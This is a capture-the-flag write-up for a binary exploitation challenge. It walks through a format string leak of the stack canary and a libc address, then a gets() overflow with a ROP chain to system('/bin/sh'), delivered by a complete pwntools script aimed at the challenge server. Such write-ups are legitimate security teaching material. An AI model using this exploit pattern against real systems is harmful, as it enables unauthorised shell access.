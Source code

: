 # pwn/warmup

## Description

Can you help find the canary?

> nc chall.nitdgplug.org 30091

Downloads:
[chall](chall)
[libc.so.6](libc.so.6)

## Solution

For this challenge we are given a binary as well as its libc.
The following security mechanisms are enabled:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

First of all I took a look in ghidra:

```c
void vuln() {
  char local_98 [64];
  char local_58 [72];
  
  puts("Can you help find the Canary ?");
  fgets(local_98, 64, stdin);
  printf(local_98);

  fflush(stdout);

  gets(local_58);
  puts(local_58);

  return;
``` 

We have two vulnerabilites here: a format string vulnerability as well a buffer overflow. With the buffer overflow I
leak a libc address as well as the stack canary. With the buffer overflow I then write my ROP chain and get a shell.


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('chall')
libc = ELF('./libc.so.6')

io = remote('chall.nitdgplug.org', 30091)

io.recvline()
io.sendline(b'%23$p %27$p')

leak = io.recvline()[:-1]
leak = leak.split(b' ')

canary = int(leak[0][2:].decode("utf-8"), 16)
libc_addr = int(leak[1][2:].decode("utf-8"), 16)

libc.address = libc_addr - libc.libc_start_main_return

rop = ROP(libc)
rop.raw(rop.find_gadget(['ret']).address)
rop.raw(rop.find_gadget(['ret']).address)
rop.system(next(libc.search(b'/bin/sh')))
payload = flat(72 * "A", canary, rop.chain())

io.sendline(payload)
io.interactive()
```

I had to add two `ret`s in my ROP chain since it wouldn't work otherwise on the remote service. This gives the flag
`GLUG{1f_y0u_don't_t4k3_r1sk5_y0u_c4n't_cr3at3_4_future!}`.

